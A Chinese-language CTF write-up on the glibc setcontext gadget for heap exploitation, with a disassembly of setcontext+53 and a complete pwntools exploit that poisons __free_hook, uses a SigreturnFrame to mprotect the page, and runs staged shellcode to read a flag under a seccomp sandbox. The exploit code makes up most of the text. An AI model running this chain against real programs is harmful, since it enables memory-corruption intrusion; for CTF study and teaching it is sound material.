



# setcontext

## 1.setcontext gadget

因为要控制程序执行流，而劫持__free_hook为一个函数只能传入特定的rdi参数，所以需要gadget去控制寄存器和栈指针，实现多级操作或者是劫持

或者是讲__free_hook劫持成pop链这种，传入寄存器特定的值，实现调用链条


setcontext 函数是 libc 中一个独特的函数，它的功能是传入一个 SigreturnFrame 结构指针，然后根据 SigreturnFrame 的内容设置各种寄存器。
因此从 setcontext+53（不同 libc 偏移可能不同）的位置开始有如下 gadget，即根据 rdi 也就是第一个参数指向的 SigreturnFrame 结构设置寄存器

```shell
0x7f4b45a35a75 <setcontext+53> mov rsp, qword ptr [rdi + 0xa0]
0x7f4b45a35a7c <setcontext+60> mov rbx, qword ptr [rdi + 0x80]
0x7f4b45a35a83 <setcontext+67> mov rbp, qword ptr [rdi + 0x78]
0x7f4b45a35a87 <setcontext+71> mov r12, qword ptr [rdi + 0x48]
0x7f4b45a35a8b <setcontext+75> mov r13, qword ptr [rdi + 0x50]
0x7f4b45a35a8f <setcontext+79> mov r14, qword ptr [rdi + 0x58]
0x7f4b45a35a93 <setcontext+83> mov r15, qword ptr [rdi + 0x60]
0x7f4b45a35a97 <setcontext+87> mov rcx, qword ptr [rdi + 0xa8]
0x7f4b45a35a9e <setcontext+94> push rcx
0x7f4b45a35a9f <setcontext+95> mov rsi, qword ptr [rdi + 0x70]
0x7f4b45a35aa3 <setcontext+99> mov rdx, qword ptr [rdi + 0x88]
0x7f4b45a35aaa <setcontext+106> mov rcx, qword ptr [rdi + 0x98]
0x7f4b45a35ab1 <setcontext+113> mov r8, qword ptr [rdi + 0x28]
0x7f4b45a35ab5 <setcontext+117> mov r9, qword ptr [rdi + 0x30]
0x7f4b45a35ab9 <setcontext+121> mov rdi, qword ptr [rdi + 0x68]
0x7f4b45a35abd <setcontext+125> xor eax, eax
0x7f4b45a35abf <setcontext+127> ret
```


## 2.setcontext + shellcode

开启了沙箱保护的堆题，不能执行 execve，所以需要利用 orw 来 getflag，连续的劫持程序流

libc2.27 的简单示例：

在泄露 libc 基地址后在在 __free_hook 处申请堆块并写入如下数据



之后释放一个 SigreturnFrame，寄存器设置如下图所示。程序通过 setcontext gadget 设置寄存器后将完成栈迁移，此时会调用 mprotect 函数将 free_hook 所在内存页添加可执行属性并且会将栈迁移至 &free_hook+0x8 的位置。执行完 mprotect 函数后程序将跳转至 shellcode1 执行。shellcode1 会向 __free_hook 所在内存页起始位置读入能 orw 的 shellcode2 并跳转至 shellcode 执行获取 flag



跟着exp调试一遍执行流大概就清楚了

```c
from pwn import *
# patchelf --set-interpreter new_ld_address file_path
# patchelf --replace-needed old_libc.so.6 new_libc.so.6 file_path
# pycharm # ctrl+/

# local pwn
elf_path = './pwn'
elf = ELF(elf_path)
libc = ELF('./libc.so.6')
context(arch=elf.arch, os=elf.os, log_level="debug")
p = process([elf_path])

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sa(b"choice:\n", b"1")
    sa(b"index:\n", str(index).encode())
    sa(b"size:\n", str(size).encode())

def delete_chunk(index):
    sa(b"choice:\n", b"2")
    sa(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sa(b"choice:\n", b"3")
    sa(b"index:\n", str(index).encode())
    sa(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sa(b"choice:\n", b"4")
    sa(b"index:\n", str(index).encode())

def exit_p():
    sa(b"choice:\n", b"5")

add_chunk(0, 0x500)
add_chunk(1, 0x18)
add_chunk(2,0x18)
delete_chunk(0)
show_chunk(0)
libc.address = u64Leakbase(0x3afca0)
li("libc.address", libc.address)

add_chunk(0, 0x400)
delete_chunk(0)
edit_chunk(0, p64(libc.sym['__free_hook']))
add_chunk(1, 0x400)
add_chunk(0, 0x400)

shellcode1 = '''
                xor rdi,rdi
                mov rsi,%d
                mov edx,0x1000
        
                mov eax,0
                syscall
        
                jmp rsi
            ''' % (libc.sym['__free_hook'] & 0xFFFFFFFFFFFFF000)
edit_chunk(0, p64(libc.sym['setcontext'] + 53) + p64(libc.sym['__free_hook'] + 0x10) + asm(shellcode1))

frame = SigreturnFrame()
frame.rsp = libc.sym['__free_hook'] + 8
frame.rip = libc.sym['mprotect']
frame.rdi = libc.sym['__free_hook'] & 0xFFFFFFFFFFFFF000
frame.rsi = 0x2000
frame.rdx = 7

# edit_chunk(1, str(frame))
# edit_chunk(1, frame.__bytes__())
edit_chunk(1, bytes(frame))
#gdb.attach(p, 'b __libc_free')
#pause()
delete_chunk(1)
#pause()
shellcode2 = '''
    mov rax, 0x67616c662f2e ;// ./flag
    push rax
    
    mov rdi, rsp ;// /flag
    mov rsi, 0 ;// O_RDONLY
    xor rdx, rdx ;
    mov rax, 2 ;// SYS_open
    syscall
    
    mov rdi, rax ;// fd 
    mov rsi,rsp  ;
    mov rdx, 1024 ;// nbytes
    mov rax,0 ;// SYS_read
    syscall
    
    mov rdi, 1 ;// fd 
    mov rsi, rsp ;// buf
    mov rdx, rax ;// count 
    mov rax, 1 ;// SYS_write
    syscall
    
    mov rdi, 123 ;// error_code
    mov rax, 60
    syscall
'''
sd(asm(shellcode2))
it()
```

注意：这里的 sigframe 发送时使用 `bytes(frame)` (官方手册的方法) 或者 `frame.__bytes__()`, 不要使用 `str(frame)` 方法，会出现错误，不知道为什么原来打 srop 时用 frame 编码时为什么是正确的

